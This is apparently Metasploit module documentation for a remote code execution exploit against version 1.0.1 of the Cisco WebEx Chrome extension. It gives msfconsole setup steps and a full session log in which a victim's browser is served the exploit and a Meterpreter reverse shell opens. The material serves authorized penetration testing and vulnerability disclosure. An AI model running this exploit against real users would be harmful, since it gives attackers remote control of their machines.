 ## Vulnerable Application

Cisco WebEx is a suite of applications for online meeting organization and video conferencing.
Included in this suite are extensions for popular web browsers which ease use and provide supplemental
features.

Version 1.0.1 of the WebEx extension for Google Chrome contains a vulnerability which allows an
attacker to execute arbitrary commands on a target, which can lead to arbitrary remote code execution.

Cisco WebEx Chrome Extension 1.0.1 is known to be affected.

## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/windows/browser/cisco_webex_ext```
3. Do: ```set SRVHOST [IP ADDRESS]```
4. Do: ```set SRVPORT [PAYLOAD NAME]```
5. Do: ```set URIPATH [ARBITRARY URI]```
6. Do: ```Choose a payload and set any specific options```
6. Do: ```run```, after a target browses to the generated URL, you should receive a session like the following:

## Scenarios

```
msf > use exploits/windows/browser/cisco_webex_ext
msf exploit(cisco_webex_ext) > set srvhost 10.6.0.151
srvhost => 10.6.0.151
msf exploit(cisco_webex_ext) > set srvport 4567
srvport => 4567
msf exploit(cisco_webex_ext) > set uripath not_a_very_good_meeting
uripath => not_a_very_good_meeting
msf exploit(cisco_webex_ext) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 10.6.255.229:4444
[*] Using URL: https://10.6.0.151:4567/not_a_very_good_meeting
[*] Server started.
msf exploit(cisco_webex_ext) > [*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting
[*] 10.6.0.151       cisco_webex_ext - From: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
[*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting/cwcsf-nativemsg-iframe-43c85c0d-d633-af5e-c056-32dc7efc570b.html
[*] 10.6.0.151       cisco_webex_ext - From: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
[*] 10.6.0.151       cisco_webex_ext - Sending exploit html ...
[*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting/qt3iFe8N
[*] 10.6.0.151       cisco_webex_ext - From:
[*] 10.6.0.151       cisco_webex_ext - Sending payload ...
[*] Sending stage (957487 bytes) to 10.6.255.229
[*] Meterpreter session 1 opened (10.6.255.229:4444 -> 10.6.255.229:57472) at 2017-01-26 13:27:28 -0600

msf exploit(cisco_webex_ext) >
```
